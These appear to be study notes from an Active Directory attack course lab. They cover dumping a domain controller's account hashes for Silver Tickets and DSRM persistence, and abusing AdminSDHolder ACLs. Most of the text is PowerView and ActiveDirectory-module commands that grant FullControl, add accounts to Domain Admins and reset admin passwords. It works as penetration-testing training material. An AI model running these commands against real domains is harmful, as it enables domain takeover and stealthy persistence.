 DP5:: 23:00

***This gives us the hash of dcorp-dc.domain.local hence DC and further on we can create a Silver Ticket with that Hash***
***We can also get the DSRM password and gain a persistent access***
	`Get-RemoteLocalAccountHash -Computername dcorp-dc -Verbose`

- It is very stealthy as not many company go through with ACLs auditing



## ACLs - AdminSDHolder
AdminSDHolder stands for Admin Security Discriptor Holder which have its own ACL and holds/contains protected groups and each and evey 60mins system resets the protective groups ACL to match with AdminSDHolder group.

**Protected Groups**
- Account Operators
- Enterprise Admins
- Backup Operations
- Domain Controllers
- Server Operators
- Read-Only Domain Controllers
- Print Operators
- Schema Admins
- Domain Admins
- Administrators
- Replicator

Well known abuse of some of the Protected Groups - All of the below can log on locally to DC
|Protected Group|Description|
|--|--|
|Account Operators|Cannot modify DA/EA/BA groups. Can modify nested group within these groups.|
|Backup Operators|Backup GPO, edit to add SID of Controlled account to a privileged group and Restore.|
|Server Operators|Run a command as system (using the disabled Browser service.|
|Print Operators|Copy ntds.dit backup, load device drivers.|

- Command to do AdminSDHolder 
	`.\Invoke-SDPropagator.ps1`
- Exploit: If we could add our gained admin to the ACL list of AdminSDHolder group then we can have Propogation access. (**Interactive Logon**)
- **Remote Exploit:** 
	- Add FullControl permissions for a user to AdminSDHolder using PowerView as DA:
		`Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder, CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose`
	- Using ActiveDirectory Module and Set-ADACL:
		`Set-ADACL -DistinguishedName 'CN=AdminSDHolder, CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose`
	- Check the Domain Admins permission - 
		- PowerView as normal User:
		`Get-ObjectAcl -SameAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}`
		- Using ActiveDirectory Module:
		`(Get-Acl -path 'AD:\CN=Domain Admins,Cn=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}`
	- Abuse FullControl using PowerView_dev:
	`Add-DomaingroupMember -Identity 'Domain Admins' -Members testda -Verbose`
	- Using ActiveDirectory Module:
		`Add-ADGroupMember -Identity 'Domain Admins' -Member testda`
	- **Reset Password** of any domain admin and we dont even have to make a new user.
		- Abusing ResetPassword using powerView_dev:
		`Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`